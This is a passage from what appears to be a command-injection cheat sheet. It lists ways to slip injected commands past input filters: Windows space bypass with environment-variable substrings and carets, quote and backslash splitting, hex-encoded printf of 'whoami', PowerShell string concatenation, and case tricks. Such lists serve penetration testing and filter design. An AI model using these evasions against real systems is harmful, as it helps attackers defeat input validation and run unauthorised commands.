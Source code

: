 #### Windows Space Bypass
```cmd
# Using environment variable substrings
ping%PROGRAMFILES:~10,1%127.0.0.1

# Using carets (escape characters)
ping^  ^127.0.0.1
```

### Bypassing Blacklisted Characters

#### Linux Character Bypass

```bash
# Using strings from environment variables
echo ${PATH:0:1}  # Returns "/"
echo ${LS_COLORS:10:1}  # Returns a specific character

# Using quotes to break up commands
w'h'o'am'i
w"h"o"am"i

# Dollar sign evasion
who$@ami
w\ho\am\i

# Hex encoding
$(printf "\x77\x68\x6f\x61\x6d\x69")  # whoami
```

#### Windows Character Bypass

```cmd
# Using environment variable substrings
echo %HOMEPATH:~6,-11%  # Returns "\"

# Using carets for escaping
who^ami

# PowerShell variable notation
$env:HOMEPATH[0]  # Returns "\"

# PowerShell concatenation
&("wh"+"oami")
```

## Advanced Command Obfuscation

### Case Manipulation

```bash
# Linux/Unix
WhOaMi  # Works if server doesn't enforce case sensitivity
$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")
$(a="WhOaMi";printf %s "${a,,}")

# Windows PowerShell
WhOaMi  # Windows commands are case-insensitive by default
```
